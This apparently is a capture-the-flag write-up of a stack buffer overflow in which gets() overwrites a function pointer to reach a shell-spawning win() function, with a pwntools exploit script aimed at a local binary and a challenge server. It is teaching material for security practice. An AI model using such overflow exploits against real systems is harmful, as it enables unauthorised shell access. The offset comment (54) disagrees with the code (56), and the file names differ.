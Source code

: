 # Reconnaissance
## C Review
First we look into the provided c file. At a glance, the `main` function seems to be secure with the `fgets()` function properly limiting input to avoid overwriting the `sample` buffer. But the bottom of main calls `vuln()` function, which sounds interesting.

`vuln()` has a 50 byte buffer which it writes with `gets`, which means this is our attack vector. We will be overflowing the buffer to change the volatile int (pointer) and call another function--`win` since it spawns a shell!
## Binary Analysis
First, lets check how the ELF runs with the `checksec` command:
>$checksec ./challenge/chall_2

>Arch:     amd64-64-little  
>RELRO:    Partial RELRO  
>Stack:    No canary found  
>NX:       NX enabled  
>PIE:      No PIE (0x400000)

Notably, stack canary and PIE are disabled which should make our job much easier. Especially the lack of PIE, because we should be able to reliably know the address of the `win()` function. We also note that the architecture is 64-bit, which means that our address to the `win()` function will need to be 64-bit (8 bytes).

Next, lets decompile the executable file we were given with Ghidra to get an idea of what the stack looks like in the `vuln()` function. 
![Ghidra Vuln Function Image](writeUpFiles/ghidra1.png)  
It looks like despite the C file containing two buffers (`buf0` and `buf1`) only one is present here. Additionally, by looking at the positions of the two variables `local_10` and `local_48` on the stack, we see that `local_48` takes up 0x38 bytes (0x48-0x10) which amounts to a 56 byte buffer. Then, `local_10` is our pointer `volatile int (*ptr)()`, which we can tell because it is called later in the function.

# Script
To start testing, we are going to run our script on the ELF we were given for the challenge. We can load it like this:
```{python}
from pwn import *

EXE = ELF("./challenge/chall_4")

context.binary = EXE
context.terminal = ['xterm', '-e']
context.log_level = "DEBUG"

win_address = EXE.symbols['win']

def conn(useExe=False):
	if useExe:
		# r = gdb.debug(EXE.path, "\n".join(breakpoints))
		r = process([EXE.path])
	else:
		r = remote('pwn.osucyber.club',13374)
	return r
```
Here we are doing a couple of things. We are importing the `pwn` library to use as our primary tool for both working on the local file and the challenge server. Then, we use `pwn`'s `ELF` module to put the executable into a variable `EXE`. Then we set up a few things for `pwn`, most importantly `context.log_level = "DEBUG"` because this will give us verbose information about what we send and recieve with `pwn`. Finally, we use one of `pwn`'s features to find the address of the `win()` function. This should give the same value as what we found in Ghidra.  

The `conn()` function being set up here simply allows us to minimally change the program to run remotely when we are finished with testing. Calling this function with `True` as a parameter connects to the local installation of the server executable, whose path is written in the definition of the `EXE` variable. Then once our testing is completed, we can call `conn(False)` to make a connection to the remote server.

Next, we connect to the executable and run our package:
```{python}
io = conn(True)
# Wait for the process to send "Buy it, use it, break it, fix it..." and respond to move onto vuln()
io.recvline()
io.send(b'a\n')

# Create a payload with an offset of 54 bytes then the address win(), send it, and open an 
# interactive terminal -- The system is 64 bit so we need a 64 bit pointer to the address of win()
payload = b'a'*56
payload += p64(win_address)+b'\n'
io.send(payload)
io.interactive()

io.close()
```
If this spawns a terminal, then our code worked! We can run it again on the server then call `ls` and `cat flag.txt` in the interactive shell!